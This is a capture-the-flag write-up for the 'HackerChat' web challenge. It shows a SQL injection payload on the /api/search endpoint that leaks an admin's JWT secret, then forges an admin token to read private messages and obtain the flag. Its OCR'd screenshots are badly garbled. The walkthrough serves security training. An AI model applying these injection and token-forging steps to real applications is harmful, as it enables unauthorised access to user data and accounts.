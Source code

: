 # HackerChat
> HackerChat is the hottest new chat app for hackers. Can you recover the secret message sent to the HackerChat admin?

## About the Challenge
We are given a website that has multiple functionality such as send msg to another user, login, register, etc.


[Image extracted text: HackerChat
Home
Register
Login
Dashboard
Welcome to HackerChat]


## How to Solve?
Register first and then login to the website and you will see this page


[Image extracted text: HackerChat
Home
Register
Login
Dashboard
Inbox
Profile
Recipient:I
Message]
Send
Username:
testim
Role:
member
Date created:
2023-04-15 16.16.29]


You will notice there are 2 API endpoints when accessing dashboard page
* /api/chat
* /api/search

There is a SQL injection vulnerability on `/api/search` endpoint on `search_term` parameter. Input `' or true--` in that parameter to print all the user information


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
POST
[apilsearch
HTTP / =
usernane
Ghost InShell"
Host
hackerchat
cha-haclpack_
club
Cookie
access
Coken=
eyJhbGcidiJIUzIlMilsInRScCIGIlpXVCJ9
eyJzdulioiJOzxlOallplivizxhuIjoxIJgxITgYODI-LCJpY
date
created"
2023-04-05
12: 56:18"
xQiOjEZODEIIzU2Hjz9
PFLSKAUF
1OOHZRxYziYst_PuIxOUX2ozY4Opualk
id":null
User
Agent
Hozilla/5
(Vindous
IT
Vin64 ;
364;
rV: 109
Gecko/ZOlOO1ol
notes
Firefox/lll
Password"
null
Accept :
role
member
Accept-Language
en-US
en;
UCernAne
"Blacl Hatlinja"
Lecept-Encoding:
gzip
deflace
Re ferer
https:
[hackerchat
cha hackpack
club / dashboard
Content
Type
app
Cat
on /
son
date
created"
2023-04-05
13.27: 51"
Authorizat
on =
Bearer
id"
null
eyJhbGcioiJIUzI NilsInRScCIEIlpXVCJ9.eyJzduliOiJOz lOallpliviz ivIjoxlJgxITgYODI-LCJpr
notes
xQiOjEZODEINzUZHjz9
PFISKAUF_
OOHZRxYzirstZPvIxOUUXzoZT4Opvalk
Password"
null
Content
Lengch:
role
member
Origin:
https:
{hackerchat
cha haclpacl:
club
usernae
"CyberPunk404"
Sec--
etch-
Dest
empty
Sec-
etch-Hode
cors
Sec-
etch-Sice
sae
origin
date
created"
2023-04-10
14.20:45 "
crailers
id"
null
notes
secret
reminder:
8vqB Sxhr TdPzPDXpSpOTYSoTB3ExpZJdrsFGn /hc/YE="
Password
null
search
term
true-=
role
adu1n
UCernAne
adnin"
date
created"
2023-04-14
22: 53:27"
id"
null
notes
Password"
null
role
member
usernae
date
created"
2023-04-14
22: 53: 57"
id"
null
notes
Password"
null
role
'member"
ne A
Seorcni
matches
Seorcne
matches
4-0
JA
aa]


As we can see, we found admin username and there is an interesting notes there

```
secret reminder: 8vqB5xhrTdPzPDXpSpOTY3oTB3ExpZJdrsFGm/hq/yE=
```

The `secret reminder` refers to the JWT secret, which is required in order to modify the value of the `Authorization` token from your username (For example testiiii) to `admin`


[Image extracted text: Encoded
PASTE A TOKEN HERE
Decoded
EDIT THE PAYLOAD AND SECRET
HEADER: ALGORITHM & TOKEN TYPE
eyJhbGciOiJIUZI NilsInRScCI6IkpXVCJ9 . ey
JzdWiOiJhZG pbiIsImV4cCI6MTYAMTUAMjgyN
alg"
'HS256 "
iwiaWFOIjoxNjgxNTc1NjIZfQ.MQ4Rowtq3aCXL
'typ'
JWT
LHvMBtJEY1459pEHOdySBX3MEOog0
PAYLOAD: DATA
sub"
admin"
exp"
1681582826
'iat"
1681575626
VERIFY SIGNATURE
HMACSHA256
base64UrlEncode( header)
base64UrlEncode(payload) _
8vqBSxhrTdPzPDXp SpoTy:|
secret
base64
encoded]


Now, go to `/api/chat` history and don't forget to change the `Authorization` token and voilà you will obtain the flag


[Image extracted text: Request
Response
Pretty
Raw
Hex
Pretty
Raw
Hex
Render
GET
[apilchat
HTTP / =
HTTP / 2
200
Or
Host
hackerchat
cha-hackpack
club
Content
Type
applicat-
on/ Json
User-Agent
Hozilla/5
(Vindous
IT
0; Vin64 ;
*64;
rv:109
Gecko/:O1OO101
Dat
Sat
15
ApI
2023
16: 26: 39
GHT
Fire
(11
Server:
nginx/ 1
Accept
applicat
on/json,
Eext/plain,
77"
Content
Lengch:
158
Lccept-Language
En
US
en ;
Aecept
Encoding:
szip
deflace
Luthorizat
on -
Bearer
eyJhbGcidiJIUzIlNilsInRScCIEIFpXVCJ9. eyJzdWlioiJhZGlpbilsInV4cCIEHTT4HTUAHjgyliviaWFOI
messages
oxMjgxMTcINjISfQ
HOARGvt q3aCXLLHvIt JEY114SSp EHOdySBXZMEOogo
Re ferer
https:
[hackerchat
cha hackpack
club
dashboard
dat e
2023-04-10 18:27:47"
Sec-
etch-Dest
empty
recipi
adhin
Sec--
etch-Hode
cors
"cext
Elag{Unbr341-4613
Chlt
S3curity_ulu_flgla}
Sec--
etch-Sice:
5ae
origin
usernane
aduin"
crailers
recipient
adhin
fox
9-0
ent]


```
flag{Unbr34k4bl3_Ch@t_S3curity_uWu_2lgla}
```
